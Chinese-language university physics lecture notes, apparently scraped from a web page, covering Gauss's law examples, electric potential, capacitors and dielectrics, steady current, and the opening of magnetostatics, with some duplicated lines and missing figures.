 密度为 \(\lambda\) 的无限长线电荷被放在空心圆柱的中轴线上，空心圆柱的内径为 \(r_i = a\), 外径为 \(r_o = b\)，求空心圆柱外表面的电荷密度 \(\sigma _o(C/m^2)\) 是多少？
密度为 \(\lambda\) 的无限长线电荷被放在空心圆柱的中轴线上，空心圆柱的内径为 \(r_i = a\), 外径为 \(r_o = b\)，求空心圆柱外表面的电荷密度 \(\sigma _o(C/m^2)\) 是多少？
- A. \(\sigma_o = -\dfrac{\lambda}{2\pi b}\)
- B. \(\sigma_o = 0\)
- C. \(\sigma_o = +\dfrac{\lambda}{2\pi b}\)
解析：我们可以构造一个仅包围外表面的高斯面，其中一侧在圆柱外部，另一侧在空心圆柱里，那么就有 \(E_{outside} = \dfrac{\lambda}{2\pi \epsilon_0 r}\) 与 \(E_{conductor} = 0\)，于是 $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = (2\pi rL)E_{outside} + (2\pi rL)E_{conductor} = \dfrac{q}{\epsilon_0} = \dfrac{\sigma_o 2\pi bL}{\epsilon_0} $$
又根据 $$ E_{outside} = \dfrac{\lambda}{2\pi \epsilon_0 r} = \dfrac{\sigma_o b}{\epsilon_0 r} $$ 可以得到 $$ \sigma_o = \dfrac{\lambda}{2\pi b} $$
无限面电荷¶
显然的，我们在对无限面电荷构造高斯平面时，应当选择构造与这个平面平行且容易计算面积的形状，常用的有与此平面垂直的圆柱体或一个立方体
 由对称性可以知道只有与平面垂直的方向有电场，因此可很平凡地构造一个高斯面。
由对称性可以知道只有与平面垂直的方向有电场，因此可很平凡地构造一个高斯面。
- 在侧面：$ \overrightarrow{E} \cdot d\overrightarrow{A} = 0 $
- 在两端：$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 2AE$$
- 所包裹住的电荷量大小：\(\sigma A\)
因此由高斯定理 $$ E = \dfrac{\sigma}{2\epsilon_0} $$
结论：一个无限面电荷产生的电场强度是一个常量。
一些其他例题
 两个带相反电荷的无限平面：
两个带相反电荷的无限平面：
可以构造两种高斯面，
- 跨越两个平面的高斯圆柱：所包裹的总电荷为0，其两侧的电场强度都是0（相互抵消了）
-
只跨过一个平面的高斯圆柱：所包裹的总电荷为0，在外侧的电场强度是0，在两平面之间的电场强度不为0
电荷为\(Q = \sigma A\) $$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = AE_{outside} + AE_{inside} $$
得到 $$ E = \dfrac{\sigma}{\epsilon_0} $$
如何在作业题中运用高斯定理
牢记高斯公式在有关题目中一定是有效的 $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = q_{enclosed} $$
如何运用高斯定理？
- 我们可以利用球面、圆柱体、平面的对称性来解决许多问题
- 如果我们知道了电荷量，就可以计算电场大小；如果我们知道了电场大小，就可以计算电荷量
半径为 \(r\) 的球面对称： $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 4\pi \epsilon_0 r^2 E = q $$ $$ E = \dfrac{1}{4\pi \epsilon_0} \dfrac{q}{r^2} $$
半径为 \(r\) 的圆柱面对称： $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \epsilon_0 2\pi rLE = q $$ $$ E = \dfrac{q}{2\pi \epsilon_0 r} $$
面积为 \(A\) 的平面对称： $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \epsilon_0 2AE = q $$ $$ E = \dfrac{\sigma}{2 \epsilon_0} $$
两道例题
 如图，一个实心导体球被一个薄导体球面包裹，球携带的电荷为 \(Q_1\)，球壳携带的电荷为 \(Q_2\)，其中 \(Q_2 = -3Q_1\)
如图，一个实心导体球被一个薄导体球面包裹，球携带的电荷为 \(Q_1\)，球壳携带的电荷为 \(Q_2\)，其中 \(Q_2 = -3Q_1\)
- A. 电荷在球上如何分布？
- B. 电荷在球壳上如何分布？
- C. 当 \(r < R_1\), 在 \(R_1\) 和 \(R_2\) 之间，\(r > R_2\) 时，电场大小分别是多少？
- D. 使用导线将两者连接之后，电荷将会如何变化？
A. 电荷分布在球的外表面上 $ \sigma = \dfrac{Q_1}{4\pi R_1^2} $
B. 将球壳和球视为一个大的导体，由于导体内部的总电荷为 0，那么球壳内表面上的电荷一定为 \(-Q_1\)，外表面上的电荷为 \(-2Q_1\) $$ \sigma_{inner} = \dfrac{Q_1}{4\pi R_2^2} $$ $$ \sigma_{outer} = \dfrac{Q_1 + Q_2}{4\pi R_2^2} = \dfrac{-2Q_1}{4\pi R_2^2}$$
C. \(r < R_1\) 时：\(\overrightarrow{E} = 0\)
在 \(R_1\) 和 \(R_2\) 之间：被包裹的电荷量为\(Q_1\) $$ \overrightarrow{E} = \dfrac{1}{4\pi \epsilon_0} \dfrac{Q_1}{r^2} \hat{r} $$
\(r > R_2\)时：包裹的电荷量为 \(Q_1 + Q_2 = -2Q_1\) $$ \overrightarrow{E} = \dfrac{1}{4\pi \epsilon_0} \dfrac{Q_1 + Q_2}{r^2} \hat{r} = \overrightarrow{E} = -\dfrac{1}{4\pi \epsilon_0} \dfrac{2Q_1}{r^2} \hat{r} $$
D：达到电荷平衡后，球壳内表面以及实心球上不再有电荷，所有电荷都在球壳外表面上
对于 \(r < R_2\)，\(\overrightarrow{E} = 0\)
对于 \(r > R_2\)，$\overrightarrow{E} = -\dfrac{1}{4\pi \epsilon_0} \dfrac{2Q_1}{r^2} \hat{r} $

一条无限长的线电荷从半径为 \(R\) 的带电圆柱面的中心穿过，仅考虑长度为 \(h\) 的部分，线电荷密度为 \(\lambda\)，圆柱面具有的的总面电荷密度为 \(\sigma_{total}\)。
- A. 电荷在圆柱面上如何分布？考虑 \(\sigma_{inner}\) 与 \(\sigma_{outer}\)
- B. \(r < R\) 时电场强度是多少？
- C. \(r > R\) 时电场强度是多少？
 A. 将整个圆柱面以及线电荷视为一个导体，则圆柱面内表面和线电荷的总电荷为 0.
A. 将整个圆柱面以及线电荷视为一个导体，则圆柱面内表面和线电荷的总电荷为 0.
长度为 \(h\) 的这部分线电荷为 \(\lambda h\)，故内表面产生的感应电荷为 \(Q_{inner} = -\lambda h\)，于是 $$ \sigma_{inner} = \dfrac{Q_{inner}}{2\pi Rh} = -\dfrac{\lambda}{2\pi R} $$
所以外表面电荷密度为 $$ \sigma_{outer} = \sigma_{total} - \sigma_{inner} = \sigma_{total} + \dfrac{\lambda}{2\pi R} $$
 B. 直接利用高斯定理即可得到
$$ 2\pi rhE_r = \dfrac{q_{enclosed}}{\epsilon_0} = \dfrac{\lambda h}{\epsilon_0} $$
$$ E_r = \dfrac{\lambda}{2\pi \epsilon_0 r} $$
B. 直接利用高斯定理即可得到
$$ 2\pi rhE_r = \dfrac{q_{enclosed}}{\epsilon_0} = \dfrac{\lambda h}{\epsilon_0} $$
$$ E_r = \dfrac{\lambda}{2\pi \epsilon_0 r} $$
C. 也是运用高斯定理，只不过还要加上 \(\sigma_{total}\) 的部分

于是 $$ E_r = \dfrac{\sigma_{total}}{\epsilon_0} \dfrac{R}{r} + \dfrac{\lambda}{2\pi \epsilon_0 r} $$
电势能和电势¶
电势能¶
静电力是保守力，即静电力的做功大小与路径无关，仅取决于初、末位置，类比于重力以及重力势能，我们也可以定义电势能。
考虑一个带电粒子 \(q\) 在电场 \(\overrightarrow{E}\) 中运动，假设它从位置 \(a\) 移动到位置 \(b\)，那么它的电势能变化为 $$ \Delta U = U_b - U_a = -\int_a^b \overrightarrow{F} \cdot d\overrightarrow{l} = -q \int_a^b \overrightarrow{E} \cdot d\overrightarrow{l} $$ 这里的 \(\int_a^b \overrightarrow{F} \cdot d\overrightarrow{l}\) 仅取决于初、末位置 \(a\) 和 \(b\)，而与路径无关。
- 当电场力做正功时，电势能减小，反之电势能增加。
- 电势能是一个标量，当带电粒子处于由多个电场叠加得到的电场中时，它总的电势能等于它在每个电场的电势能的标量和。
- 带电粒子在电场中某一点的电势能 \(U(x,y,z)\) 等于将这个粒子从电势能为零的点移到点 \((x,y,z)\) 所做的功。通常我们将电势能为零的点设为无穷远处。
静电场的环路定律¶
显然的，静电场沿着一个闭合回路的积分为零，即 $$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = 0 $$
根据 Stokes 公式，第二类曲线积分等于这条曲线所包围的面积的法向量积分，即 $$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = \iint (\nabla \times \overrightarrow{E}) \cdot d\overrightarrow{A} = 0 $$ 因此我们可以得到 $$ \nabla \times \overrightarrow{E} = 0 $$
Note
事实上，利用数分 2 中学到的 Guass 公式，我们可以得到
因此我们可以得到 $$ \nabla \cdot \overrightarrow{E} = \dfrac{\rho}{\epsilon_0} $$
电势¶
电势是电场中某一个点的物理量，它是一个标量，定义为单位正电荷在该点的电势能。即电势 \(V\) 可以表示为 $$ V = \dfrac{U}{q} $$ 其中 \(U\) 是电势能，\(q\) 是单位正电荷的电荷量。
与电势能相同，电势也是一个标量。我们通常也将无穷远处的电势设为零。
根据 $$ W_{AB} = \int_A^B \overrightarrow{F}_{extern} \cdot d\overrightarrow{l} = -\int_A^B \overrightarrow{F}_e \cdot d\overrightarrow{l} = -\int_A^B q_0 \overrightarrow{E} \cdot d\overrightarrow{l} $$
我们在求电势差时可以使用以下公式: $$ V_B - V_A \equiv \dfrac{W_{AB}}{q_0} = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} $$
Note
我们在计算空间中某一点的电势时，可以将其视为从该点到无穷远处对电场所做的积分，即 $$ V = \int_a^{\infty} \overrightarrow{E} \cdot d\overrightarrow{l} $$ 因为无穷远处电势为零，这一点的电势相当于从无穷远处到该点电场所做的功的相反数。
根据上述公式，我们可以在点电荷产生的电场中求电势差。
 \(\begin{aligned}
V_b - V_a &= -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} = -\int_{r_a}^{r_b} \dfrac{q}{4\pi \epsilon_0 r^2} dr\\\\
&= \dfrac{q}{4\pi \epsilon_0}\left( \dfrac{1}{r_b} - \dfrac{1}{r_a} \right)
\end{aligned}\)
\(\begin{aligned}
V_b - V_a &= -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} = -\int_{r_a}^{r_b} \dfrac{q}{4\pi \epsilon_0 r^2} dr\\\\
&= \dfrac{q}{4\pi \epsilon_0}\left( \dfrac{1}{r_b} - \dfrac{1}{r_a} \right)
\end{aligned}\)
此时我们令 \(r_a = \infty\)，\(V_a = 0\)，可以得到点电荷在空间中产生的电势： $$ V = \dfrac{q}{4\pi \epsilon_0 r} $$
两个典型的例子

当 \(r >> a\) 时，我们有 \(r_2 - r_1 \approx 2a\cos\theta\) 以及 \(r_1 r_2 \approx r^2\)
此外我们还知道 \(p = 2aq\)，\(\overrightarrow{p} = q \overrightarrow{d}\)，\(d = 2a\)，所以我们可以得到 $$ V( r ) = \dfrac{1}{4\pi \epsilon_0} \dfrac{2aq \cos\theta}{r^2} = \dfrac{\overrightarrow{p} \cdot \hat{r}}{4\pi \epsilon_0 r^2} $$
- \(\theta = 90^{\circ}\)时，\(V = 0\)
- \(\theta = 0\)时，\(V_{max} > 0\)
- \(\theta = 180^{\circ}\)时，\(V_{max} < 0\)

对于 \(d << r\)，即 \(d^2 / r^2 << 1\)，有 $$ V( r ) = \dfrac{2qd^2}{4\pi \epsilon_0 r^3} = \dfrac{Q}{4\pi \epsilon_0 r^3}$$ 因为在电四偶极矩中 \(Q = 2qd^2\)
Note
- 对于点电荷，\(V \propto \dfrac{1}{r}\)
- 对于电偶极矩，\(V \propto \dfrac{1}{r^2}\)
- 对于电四偶极矩，\(V \propto \dfrac{1}{r^3}\)
常见模型的电势能和电势¶
带电球壳的电势能和电势¶
由高斯定理可以直接得到
- \(E = \dfrac{q}{4\pi \epsilon_0 r^2}\)，\((r \geqslant R)\)
- \(E = 0\)，\((r < R)\)
可以求得电势

电势能为
圆环与圆盘的电势¶


等势面¶
- 在等势面上移动时电场力不做功
- 带电导体的表面是一个等势面（假如不是等势面，那么电子就会自由移动，最终达到平衡状态时就得到了一个等势面）
如果用一个导体球壳把一个点电荷包裹起来，点电荷不在球心的位置，那么
- 导体内表面产生的感应电荷分布不均匀，距离电荷越近的地方感应电荷越密集
- 导体外表面的电荷在球壳上均匀分布
- 导体内、外表面的总电荷大小都与点电荷的大小相同，但是外表面符号相同、内表面符号不同
尖端放电

由于导体表面是一个等势面，而曲率越大的地方电荷面密度就越大，当电势足够大时就会电离空气，也就是产生尖端放电现象
通过电势求电场¶
如果我们知道了空间任意一处的电场，就可以通过积分来求出任意一点的电势；类似地，假如我们知道了空间任意一处的电势，我们就可以通过微分来求出相应位置的电场。
也就是说，根据 $$ \Delta V = V_b - V_A = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} $$
就有 $ dV = -\overrightarrow{E} \cdot d\overrightarrow{l} $
从而 $ E = -\left( \dfrac{dV}{dl} \right)_{max} $
我们用电势梯度描述电场中电势沿某一方向的变化率，而 \(\overrightarrow{E}\) 沿着电势下降最快的方向，即电场沿着电势梯度最大的方向，或者说，电场是电势的负梯度。 $$ \overrightarrow{E} = -\overrightarrow{\nabla} V $$
- 在直角坐标系中，$$ \overrightarrow{\nabla} V = \dfrac{\partial V}{\partial x} \hat{x} + \dfrac{\partial V}{\partial y} \hat{y} + \dfrac{\partial V}{\partial z} \hat{z} $$
- 在球坐标系中，$$ \overrightarrow{\nabla} V = \dfrac{\partial V}{\partial r} \hat{r} + \dfrac{1}{r} \dfrac{\partial V}{\partial \theta} \hat{\theta} + \dfrac{1}{r \sin \theta} \dfrac{\partial V}{\partial \phi} \hat{\phi} $$
镜像法求电势

在求一个靠近导体的电荷所产生的电势与电场时，我们可以考虑在对称的位置构造一个大小相同、正负相反的虚拟电荷。
这样我们就构造出一个电偶极矩，再通过电偶极矩求电势的方法就可以求出某一点处的电势或电场大小了。
电势与电场的关系
如果我们知道了任意位置的电场 \(E\)，我们就可以求出任意位置的电势 \(V\) $$ V_B - V_A = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} $$ $$ V_P = -\int_P^{\infty} \overrightarrow{E} \cdot d\overrightarrow{l} = \int_{\infty}^P \overrightarrow{E} \cdot d\overrightarrow{l} $$
反之，如果我们知道了任意位置的电势\(V\)，我们就可以求出任意位置的电场\(E\)。 $$ \overrightarrow{E} = -\overrightarrow{\nabla} V $$
电容与电介质¶
电容器由分离的两个导体组成，这两个导体带有大小相同、符号相反的电荷 \(+q\) 与 \(-q\)。
电容的定义，Capacitance
电容器的电容定义为：电容器上其中一个导体所含有的的电荷相对于两导体间电势差的变化率，即 $$ C = \dfrac{q}{\Delta V} $$ 其中 \(q\) 是电容器带有的电荷量，\(V\) 是电容器的两个导体间的电势差。
- 电容是电容器所具有的一个固有的性质，与带电量与电势差大小无关，仅与电容器的材料、大小、形状等有关
常见模型的电容¶
平行板电容器¶
 $$ E = \dfrac{\sigma}{\epsilon_0} = \dfrac{q}{A \epsilon_0} $$
$$ \Delta V = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} = \dfrac{q}{A \epsilon_0} d $$
$$ C = \dfrac{q}{\Delta V} = \dfrac{\epsilon_0 A}{d} $$
$$ E = \dfrac{\sigma}{\epsilon_0} = \dfrac{q}{A \epsilon_0} $$
$$ \Delta V = -\int_A^B \overrightarrow{E} \cdot d\overrightarrow{l} = \dfrac{q}{A \epsilon_0} d $$
$$ C = \dfrac{q}{\Delta V} = \dfrac{\epsilon_0 A}{d} $$
因此平行板电容器的电容与平行板的面积成正比，与板之间的距离成反比。
圆柱形电容器¶
 首先用高斯定理计算出电场
$$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 2 \pi rLE = \dfrac{Q}{\epsilon_0} $$
$$ \Rightarrow E = \dfrac{Q}{2 \pi \epsilon_0 Lr} $$
首先用高斯定理计算出电场
$$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = 2 \pi rLE = \dfrac{Q}{\epsilon_0} $$
$$ \Rightarrow E = \dfrac{Q}{2 \pi \epsilon_0 Lr} $$
再根据电势与电场的关系
因此，对于圆柱形电容器，其单位长度的电容为 $$ C' = \dfrac{C}{L} = \dfrac{2 \pi \epsilon_0}{\ln \dfrac{b}{a}} $$
球形电容器¶
 $$ \overrightarrow{E} = \dfrac{q \hat{r}}{4\pi \epsilon_0 r^2}, a<r<b $$
$$ \overrightarrow{E} = \dfrac{q \hat{r}}{4\pi \epsilon_0 r^2}, a<r<b $$
Note
特别的，将球形电容器的外壳移至无穷远处，即 \(b \to \infty\) 时，有 $$ C = 4\pi \epsilon_0 a $$ 这也说明一个单独的带电导体也可以视为一个电容器（电容器的另一端在无穷远处）。
电容器的并联与串联¶
Note
并联电容器的电容等于各个电容器的电容之和，串联电容器的电容的倒数等于各个电容器电容的倒数之和，这恰与电阻的串联和并联相反。

两个电容并联时，电势差相同，它们等价于一个电容更大的电容器 $$ V = \dfrac{Q_1}{C_1} = \dfrac{Q_2}{C_2} $$ $$ \Rightarrow Q = Q_1 + Q_2 = C_1 V + C_2 V = (C_1 + C_2)V $$

两个电容串联时，它们带有的电荷量相同 $$ Q = Q_1 = Q_2 = C_1 V_1 = C_2 V_2 $$ $$ V = V_1 + V_2 = \dfrac{Q}{C_1} + \dfrac{Q}{C_2} = Q\left( \dfrac{1}{C_1} + \dfrac{1}{C_2} \right) $$
电容器的能量¶
考虑两个不带电的平行板导体，我们不断地将其中一个平行板上的电子移到另个平行板上，最终就得到了一个平行板电容器，这过程中所做的功就等于让电荷克服电场力所做的功，也即电容器所具有的能量。
设平行板电容器的电容为 \(C\)，电势差为 \(V\)，那么它具有的能量为 $$ U = \int_0^Q V dq = \int_0^Q \dfrac{q}{C} dq = \dfrac{Q^2}{2C} = \dfrac{1}{2} CV^2 $$ 电容器的能量储存在它的电场当中。
-
并且，我们知道平行板电容器产生的电场是均匀的，有 \(V = Ed\)，$C = \dfrac{A \epsilon_0}{d} $，因此 $$ U = \dfrac{1}{2} E^2 \epsilon_0 Ad $$
-
此外，我们还可以得到单位体积内的静电场能量密度（注意到体积 \(V = Ad\)） $$ u = \dfrac{1}{2} E^2 \epsilon_0 $$
Tip
虽然上面的这几个公式我们是由平行板电容器推导出来的，但实际上电容器的能量公式 \(U=\dfrac{1}{2} CV^2\) 以及能量密度公式 \(u = \dfrac{1}{2} E^2 \epsilon_0\) 对于任何电容器都是成立的。
电介质(Dielectrics)¶
将绝缘体插入电容器的平面之间时，电容器的电容大小会发生变化，这个插入电场中的绝缘体就称为电介质。
介电常数 \(\kappa_e\) 是电介质的一个特性参数，它表示填充电介质后电容器的电容与真空中的电容之比，具体来说 $$ C = \kappa_e C_0 $$
- 介电常数 \(\kappa_e\) 始终大于 1
- 电介质的插入使得电容器能够储存更多的能量
我们也可以得到插入电介质后其他物理量的变化
-
当电荷总量 \(Q\) 不变时
\[ V = \dfrac{Q}{C} = \dfrac{Q}{\kappa_e C_0} = \dfrac{V_0}{\kappa_e} \]\[ E = \dfrac{V}{d} = \dfrac{V_0}{\kappa_e d} = \dfrac{E_0}{\kappa_e} \] -
当电势差 \(V\) 不变时
\[ Q = \kappa_e C_0 V = \kappa_e Q_0 \]
宏观理解¶
-
若在平行板电容器间插入一个导体，导体的上下表面都会产生感应电荷，相当于将一个电容器变成了两个电容器的串联

$$ C_1 = \epsilon_0 \dfrac{A}{d_1} $$ $$ C_2 = \epsilon_0 \dfrac{A}{d_2} $$ $$ C = \dfrac{C_1 C_2}{C_1 + C_2} = \epsilon_0 \dfrac{A}{d_1 + d_2} > \epsilon_0 \dfrac{A}{d} $$ 因为显然 \(d_1 + d_2 < d\)
-
若在平行板电容器间插入一个电介质，电介质与电容器之间几乎没有缝隙。此时电介质的表面会产生束缚电荷，由于电介质内部会产生感应电场，将原电场的一部分抵消从而使电势差减小，在带电量不变的情况下，由 \(C = \dfrac{Q}{V}\) 可知电容增大。此时我们就称这个电介质被极化（Polarization）了。
 \[ V = Ed = (E_0 - E')d < E_0 d \]\[ C = \dfrac{q}{Ed} = \dfrac{q}{(E_0 - E')d} > \dfrac{q}{E_0 d} = C_0 \]
\[ V = Ed = (E_0 - E')d < E_0 d \]\[ C = \dfrac{q}{Ed} = \dfrac{q}{(E_0 - E')d} > \dfrac{q}{E_0 d} = C_0 \]
从以上两种情况可以看出，无论插入导体还是电介质都可以使电容增大。但插入导体后将会使得两个小电容器的 \(d\) 变得很小，这样就容易导致电容器被击穿，因此通常采取插入电介质的方法来提高电容。
Tip
虽然导体和电介质在外部电场中产生的电荷在英文中都称为“induced charge”，但在中文中我们通常将导体上的电荷称为感应电荷，而电介质上的电荷称为束缚电荷，这样我们就可以区分开它们。
极化的微观解释¶
无极分子电介质与有极分子电介质
-
Non-polar dielectrics (无极分子电介质)
指的是分子的正负电荷中心重合，如氮气、氧气二氧化碳等。
-
Polar dielectrics (有极分子电介质)
指的是分子的正负电荷中心不重合，如水、氯化氢等。
-
对于无极分子电介质，当一个外界电场作用于其上时，它的正负电荷中心会产生位移，不再重合，从而形成感生电偶极矩（Induced electric dipole moment），进而产生一个与外界电场方向相反的电场，这就是电子位移极化（Electric displacement polarization）。
- 当电介质内部的正负电荷矢量求和之后，最终只有两侧的电荷没有被抵消掉，相当于在电介质的表面分别产生了正负电荷。

-
对于有极分子电介质，当一个外界电场作用于其上时，其内部原本杂乱无章的电荷（电偶极矩）会受力发生偏转，产生的力矩会使电偶极矩偏向于电场的方向，称其为取向极化（Alignment polarization）。
- 当发生取向极化时，实际上也会发生电子位移极化，但后者的效果会比前者低两个数量级，因此通常可以忽略；但在高频电场中时，电子位移极化会占据更主要的位置。

极化强度矢量¶
极化强度矢量 \(\overrightarrow{P}\) (Polarization)
极化强度矢量 \(\overrightarrow{P}\) 定义为单位体积内的电偶极矩之和，即 $$ \overrightarrow{P} = \dfrac{\sum \overrightarrow{p}}{\Delta V} $$
通常来说，极化强度矢量是一个空间的函数 \(\overrightarrow{P}(x, y, z)\)，它可能是均匀的，也可能是非均匀的。


对于均匀的电介质，束缚电荷仅分布在电介质的表面。
对于不均匀的电介质，不妨设其为一个球体，考虑一个外部电场 \(\overrightarrow{E}_0\)，直觉告诉我们正电荷将更多地聚集在球体的右侧，负电荷反之。但要求出具体的极化强度矢量就需要一些技巧。
不妨在球体右表面取一个很小的圆柱体
- 或许可能会带来误导，但实际上图中圆柱的底面和顶面与其母线垂直
- 圆柱体的轴线方向 \(\overrightarrow{n}\) 与球体的半径方向相同
- \(\overrightarrow{l}\) 表示电偶极矩的长度矢量，与外部电场方向相同，与 \(\overrightarrow{n}\) 有一定夹角，
- 下面的 \(n\) 表示单位体积中分子的数量 $$ dN = ndV = nld A \cos \theta $$

这里的 \(\sigma'\) 表示因外部电场而产生的束缚电荷的面密度
由上式就可以推断出面电荷的符号与外部电场之间的关系
-
\(\theta < \dfrac{\pi}{2}\)，\(\sigma_e' > 0\)，+
-
\(\theta > \dfrac{\pi}{2}\)，\(\sigma_e' < 0\)，-
退极化场¶
上面提到过，束缚电荷会在电介质内部产生一个与外界电场方向相反的电场 \(\overrightarrow{E}'\)，称其为退极化场(Depolarization Field) $$ \overrightarrow{E} = \overrightarrow{E}_0 + \overrightarrow{E}' $$
Example
考虑一个球形电介质，带有均匀的极化强度矢量 \(\overrightarrow{P}\)，计算球心的退极化场 \(\overrightarrow{E}'\)

从而可以得到 $$ dE' = \dfrac{P}{4\pi \epsilon_0} \cos \theta \sin \theta d\theta d\phi $$

电介质的极化规律¶
-
对于各向同性（general isotropic）的材料 $$ \overrightarrow{P} = \chi_e \epsilon_0 \overrightarrow{E} $$
- 其中 \(\chi_e\) 称为极化率（Polarization coefficient）
- \(\kappa_e = 1 + \chi_e\)
-
对于不各向同性（anisotropic）的材料(\(SiO_2\)晶体水晶等)
电位移矢量¶
现在我们引入一个新的物理量，电位移矢量 \(\overrightarrow{D}\)，它定义为 $$ \overrightarrow{D} = \epsilon_0 \overrightarrow{E} + \overrightarrow{P}$$

由高斯定理，此时高斯面包围的电荷包括点电荷和束缚电荷，因此有 $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \sum_{In}(q_0 + q') $$
又根据极化强度矢量的定义和前面推导出的式子，我们有 $$ \oiint \overrightarrow{P} \cdot d\overrightarrow{A} = -\sum_{In} q' $$
于是 $$ \oiint (\epsilon_0 \overrightarrow{E} + \overrightarrow{P}) \cdot d\overrightarrow{A} = \sum_{In} q_0 $$
因此最终得到 $$ \overrightarrow{D} \cdot d\overrightarrow{A} = \sum_{In} q_0 $$ 这就是电介质中的高斯定理
Tip
当我们直接对电介质使用普通的高斯定律 $ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \dfrac{q_{in}}{\epsilon_0} $ 时，我们会发现这时候已经将电介质中的束缚电荷考虑进去了
假如我们希望求出电介质中的自由电荷，我们就需要使用电介质中的高斯定律 $ \oiint \overrightarrow{D} \cdot d\overrightarrow{A} = q_{free} $
这就是为什么我们需要引入电位移矢量 \(\overrightarrow{D}\) 的原因。
Note
利用电位移矢量 \(\overrightarrow{D}\) 我们可以得到如下推导：
因此 $$ \kappa_e = 1 + \chi_e $$
- \(\kappa_e\) Dielectric constant（介电常数）
- \(\chi_e\) Polarization coefficient（极化率）
稳恒电流¶
电流强度与电流密度¶
电流强度 \(i\) 定义为单位时间内通过某个截面的电荷量，即 $$ i = \lim_{\Delta t \to 0} \dfrac{\Delta q}{\Delta t} = \dfrac{dq}{dt} $$
电流密度 \(\overrightarrow{j}\) 定义为单位时间内通过单位面积的电荷量
电流连续性方程¶
在电流场中，电荷不会消失，因此电流在空间中的分布是连续的，即电流的流入量等于流出量。 $$ \oiint_A \overrightarrow{j} \cdot d\overrightarrow{A} = -\dfrac{dq}{dt} = 0 $$
欧姆定律、电阻、电阻率¶
- 欧姆定律：电流强度与电压成正比，与电阻成反比
- \(\Delta V = iR\)，\(i = \dfrac{\Delta V}{R}\)，\(R = \dfrac{\Delta V}{i}\)
- 电导：电阻的倒数，单位为 \(\Omega^{-1}\)，记为 \(G = \dfrac{1}{R}\)
- 单位：电阻：欧姆(\(\Omega\))，电导：西门子(\(\Omega^{-1} = S\))
$$ R = \rho \dfrac{L}{A} = \int \rho \dfrac{dl}{A} $$ 其中 \(\rho\) 为电阻率（resistivity），\(L\) 为电阻的长度，\(A\) 为电阻的横截面积
电导率：$ \sigma = \dfrac{1}{\rho} $
欧姆定律的微分和积分形式¶

微分形式：
$$ \Delta i = \dfrac{\Delta V}{R} $$
$$ j\Delta A = \dfrac{E \Delta l}{\rho \dfrac{\Delta l}{\Delta A}} = \dfrac{E \Delta A}{\rho} $$
$$ j = \dfrac{E}{\rho} = \sigma E $$
由上式可以得到 $ \overrightarrow{j} = \dfrac{E}{\rho} = \sigma \overrightarrow{E} $
微分形式的欧姆定律对于每一点都是成立的，更普适。
积分形式： $$ i = \iint \overrightarrow{j} \cdot d\overrightarrow{A} $$ $$ \Delta V = \iint \overrightarrow{E} \cdot d\overrightarrow{l} $$ $$ R = \int \rho \dfrac{dl}{A} $$
电功率和焦耳定律¶
电功率 \(P\) 的单位为瓦特（W），定义为单位时间内电场力做的功，
欧姆定律的微观解释¶

电流实际上就是定向移动的电荷
- 当外界电场为零时，到体内的电荷做无规则的热运动，电荷之间的运动相互抵消，因此电流为零。
- 当外界电场不为零时，电场会使电荷受力，电荷会在电场中做定向漂移运动，从而产生电流。
电荷在导体中运动时会与其他电荷发生碰撞或相互干涉，因此在这里有几个重要的概念值得强调：
- 平均自由程（mean free path）：\(\lambda\)，电荷在导体中每次相互碰撞之间移动的平均距离
- 平均自由时间（mean free time）：\(\tau\)，电荷在导体中每次相互碰撞之间移动的平均时间
- 平均热运动速度（mean thermal speed）：\(v_{t}\)
- 平均漂移速度（mean drift speed）：\(u\)
首先考虑牛顿定律
我们又有电流密度的定义，即单位时间内通过某个截面的电荷量，不妨设单位体积里有 \(n\) 个电子（电子密度）
此外，我们再定义一个 \(\sigma\) 那么我们最终就可以得到电流密度矢量的表达式
电动势¶
电动势（Electromotive Force，emf）\(\varepsilon\) 定义为将单位正电荷从负极通过电源内部移到正极，非静电力所做的功，即 $$ \varepsilon = \int_{-}^{+} \overrightarrow{K} d\overrightarrow{l} $$ 其中 \(\overrightarrow{K}\) 为非静电力
磁学¶
约 4315 个字 24 张图片 预计阅读时间 17 分钟
稳恒磁场¶
磁学基本现象¶
- 磁铁吸引铁、镍、钴等磁性物质
- 指北针指向地理北极（磁南极），指南针指向地理南极（磁北极），磁力线从磁北极指向磁南极
- 磁极同性相斥，异性相吸
-
奥斯特实验：电流通过导线时，导线周围会产生磁场；
电线切割磁感线时，电线会产生感应电动势，这就是电磁感应现象。
-
右手定则
- 同向电流之间相互吸引，反向电流之间相互排斥
- 磁场由运动的电荷产生
安培定律（Ampere's Law）¶
根据库仑定律，我们知道两个点电荷之间的相互作用力是由它们之间的电场产生的

那么我们可以类比求出磁场力，即两个电流元（current element）\(i_1ds_1\) 和 \(i_2ds_2\) 之间的相互作用力 $$ dF_{12} = k \dfrac{i_1 i_2 ds_1 \sin\theta_1 ds_2 \sin\theta_2}{r_{12}^2} $$ 其中 \(k\) 是一个比例系数
假如我们再将电流元本身的方向以及它们之间的位移矢量也考虑进来，就得到
- 其中 \(k = \dfrac{\mu_0}{4\pi} = 10^{-7} \text{N/A}^2\) 称为磁场常数（magnetic constant）
- \(\mu_0\) 称为真空磁导率或磁导率（permeability constant），\(\mu_0 = 4\pi \times 10^{-7} \text{N/A}^2\)
两道例题
 对于两个平行且同向的电流，电流元 \(i_1 ds_1\) 对 \(i_2 ds_2\) 的作用力为
对于两个平行且同向的电流，电流元 \(i_1 ds_1\) 对 \(i_2 ds_2\) 的作用力为
又因为 $ ds_1 \perp \hat{r}_{12} $，因此
